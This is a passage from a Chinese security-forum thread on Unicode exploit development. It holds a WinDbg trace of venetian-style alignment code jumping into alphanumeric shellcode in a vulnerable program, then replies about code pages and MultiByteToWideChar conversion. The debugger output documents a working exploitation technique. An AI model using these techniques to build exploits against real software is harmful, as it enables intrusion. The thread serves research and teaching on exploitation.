eip=0012fda1 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
0012fda1 006200          add     byte ptr \[edx\],ah          ds:0023:0012d9ac=64
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
eip=0012fda4 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fda4 3400            xor     al,0
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
eip=0012fda6 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fda6 46              inc     esi
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fda7 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
0012fda7 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=b1
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdaa esp=0012d908 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fdaa 57              push    edi
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdab esp=0012d904 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fdab 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=e3
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdae esp=0012d904 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fdae 58              pop     eax
0:000> t
eax=0012d9e0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdaf esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fdaf 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=15
0:000> t
eax=0012d9e0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdb2 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
0012fdb2 0500160011      add     eax,offset bass+0x1600 (11001600)
0:000> t
eax=1112efe0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdb7 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdb7 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=47
0:000> t
eax=1112efe0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdba esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdba 2d00110011      sub     eax,offset bass+0x1100 (11001100)
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdbf esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdbf 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=79
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc2 esp=0012d908 ebp=0012fda0 iopl=0         ov up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200a82
0012fdc2 50              push    eax
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc3 esp=0012d904 ebp=0012fda0 iopl=0         ov up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200a82
0012fdc3 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=ab
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc6 esp=0012d904 ebp=0012fda0 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200286
0012fdc6 7200            jb      0012fdc8                                \[br=0\]
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc8 esp=0012d904 ebp=0012fda0 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200286
0012fdc8 c3              ret
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012dee0 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200286
0012dee0 50              push    eax

```

代码:

```
0:000> d eip
0012dee0  50 00 50 00 59 00 41 00-49 00 41 00 49 00 41 00  P.P.Y.A.I.A.I.A.
0012def0  49 00 41 00 49 00 41 00-51 00 41 00 54 00 41 00  I.A.I.A.Q.A.T.A.
0012df00  58 00 41 00 5a 00 41 00-50 00 41 00 33 00 51 00  X.A.Z.A.P.A.3.Q.
0012df10  41 00 44 00 41 00 5a 00-41 00 42 00 41 00 52 00  A.D.A.Z.A.B.A.R.
0012df20  41 00 4c 00 41 00 59 00-41 00 49 00 41 00 51 00  A.L.A.Y.A.I.A.Q.
0012df30  41 00 49 00 41 00 51 00-41 00 50 00 41 00 35 00  A.I.A.Q.A.P.A.5.
0012df40  41 00 41 00 41 00 50 00-41 00 5a 00 31 00 41 00  A.A.A.P.A.Z.1.A.
0012df50  49 00 31 00 41 00 49 00-41 00 49 00 41 00 4a 00  I.1.A.I.A.I.A.J.

```

    如上，我们已经跳转到了 shellcode。我们的邪恶目的达到啦！  
  
  
四、小结  
    一路通过假设并通过实验来验证，我们最终达到了自己的要求。回过头来，我们也发现其实技术含量并不高，无非通过构造字符串来试探，可是，调试风雨路上何处不是试探呢？  
    做完这个之后，我一直想搞清楚 Unicode 转换在本漏洞软件中到底是如何转换的，并想把机制讲清楚，可是通过对 strcpy()、wcscpy 等拷贝函数设断都没有断下拷贝的过程（应该是通过拷贝来覆盖 SEH 吧？）。以便上升到理论的高度，可惜到目前为止，仍然没有结果。希望有兴趣的朋友可以和我一起讨论。  
    不管如何，我们毕竟找到了一个字符串，通过转换后生成的 Unicode 字符包含 C3（Retn 跳转指令）。这也算是成功吧，大雪天聊以慰藉！  
    欢迎继续关注 MultiByteToWideChar()在中文系统中的奥秘，同时继续为 Unicode Exploit 开发做出自己的一份贡献。再次，感谢泉哥的帮助和指导！ 

引用: *最初由 **wingdbg**发布*  谢谢，呵呵。本来想提升一下层次，探讨一下 Unicode 在中文系统下的转换问题。可是水平有限。一直希望有对应用程序编写比较熟悉的牛人来指导一下。看看这个转换究竟是怎么回事。呵呵 

不好意思，我曾经研究和移植过 iconv 开源库，这是目前最流行最强大的开源字符转换库，你研究一下他的源代码就会明白你的猜测：“字符的转化还跟字符所在字符串有关系”，是什么原因了。简单来说，是由源字符串的编码格式决定的，在 windows 操作系统上源字符串的编码格式就是所谓的 codepage.  
  
codepage 是虾米玩意呢？简单的说就是微软对各个国家的标准字符集的一种修改或叫山寨。比如简体中文版 windows 操作系统的默认字符集是 cp936，所谓的 cp936 其实是对 GBK 的扩展，所谓的 GBK 又是对 GB2312 的扩展，搞计算机的估计对 GB2312 很熟悉，因为课本上讲字符集就讲得这个。可以用下面的命名查看当前的字符集：  
代码:

```
D:\\>chcp
Active code page: 936

```

接上。。。。。  
  
上面说到了字符集，那和字符编码是啥关系呢？比如“"这个字，在台湾，香港，大陆的 windows 操作系统上都可以打出来，但是保存成普通的.txt 文档，再换到别的机器打开可能就是乱码的。计算机不识别任何字符，只识别编码，所谓编码就是字符在不同字符集中的编号而已。"爱"在 big5,gb18030,HKSCS,utf-8 等字符集中的编号不一样。  
那么什么是宽字符呢？widechar?unicode?都语嫣不详啊。其实 unicode 有两层含义，第一丛是指的字符集，在 ISO/IEC 10646 标准中定义，就是"全球所有语言"(肯定有很多遗漏的)中出现的字符的集合。所以我们说 unicode 可以表示所有的字符。第二丛含义是 utf-16，unicode 中这么多的字符怎么表示呢？这就涉及到对这些字符的编码方案，有很多种，比如 utf-7,utf-8,utf-16,utf-32，我们说的宽字符就是 unicode 字符集的 utf-16 编码方案，在该方案中，绝大部分字符被编码成两个字节，极少数字母被编码成 4 字节。  
MultiByteToWideChar()这个系统函数是干啥的呢？其实就是实现两个编码系统的映射，如此而已，本质上没有什么神秘的。当然了实际操作过程中，要处理的特殊情况特别多而已。比如“”这个字在 cp936 中编号是 90db, multibytetowidechar()后是 1b61 或者 611b(由 BOM 决定)。“”在 big5 中编号是 b752,使用 multibytetowidechar()（参数要正确）后也是 611b。。当然了这些转换肯定也不是查查表那么简单的，因为 ucs-4 在定义时时充分考虑了各个国家现行的字符集编码方案的。  
上面罗嗦了一大通，没到点子上。。。。其实字符编码这事不简单，可以写成一本书。。。再涉及到字体，也就是字符的呈现上就更不简单了。。。 

现在说说为什么 C3 在有些系统上会被 multibytetowidechar()翻译成 c3 00(00 c3)，而有的系统则不然。。。很明显是由于原字符编码不一样。  
使用 multibytetowidechar()方法若参数 CodePage=0，就会使用当前编码页。。。  
具体来说 c3 这个字符是?,  
其在 unicode 中的编码是\\u00c3,在 gbk、ascii 等中未定义，在 iso8859-9 中的编码是\\xc3。。  

代码:

```
\>>> s=u'\\u00c3'
\>>> s.encode('gbk')

Traceback (most recent call last):
  File "<pyshell#31>", line 1, in <module>
    s.encode('gbk')
UnicodeEncodeError: 'gbk' codec can't encode character u'\\xc3' in position 0: illegal multibyte sequence
\>>> s.encode('ascii')

Traceback (most recent call last):
  File "<pyshell#32>", line 1, in <module>
    s.encode('ascii')
UnicodeEncodeError: 'ascii' codec can't encode character u'\\xc3' in position 0: ordinal not in range(128)
\>>> s.encode('iso8859-9')
'\\xc3'

```

对于楼主所举得例子“\\x72\\xcb\\x72”,使用 cp936 解码之后为  
代码:

```
\>>> s='\\x72\\xcb\\x72'
\>>> s.decode('cp936')
u'r\\u85c3'

```

不知道我说明白了没有。。。网络限制，打出来一大篇。。。。只能一段段贴上来。 

引用: *最初由 **pearkiller**发布*  我觉得我应该另起一贴，叫【原创】对《编写 unicode exploit》一文的补充之三，哈哈，说不定也能挣个精华什么的~~~~~ 

我觉得你这个想法很靠谱。  
  
有两点不明白：  
第一，编码转换大致是如何进行的，这个实验表明它肯定不是一对一的转换。那么，它是几个字节结合到一起去转换么？（其实就是明确回答一下我的猜想到底是什么缘故“字符的转化还跟字符所在字符串有关系”）  
  
第二，编码转换之后，字符的显示是不是也有一个转换的过程，希望提供资料，或者大致说一下原理。  
  
你可以写一篇日志探讨挑战指令在 Unicode Exploit 里面的通用字符表示），如果你能找到这样一串二进制，无论通过什么样的本地 codepage，转换后的二进制反汇编出 ret、jmp 或者其他的跳转指令。我觉得你功德无量，而且史无前例啊。  
  
或者，你也可以探讨一下版本通用性的各种实用方法。期待中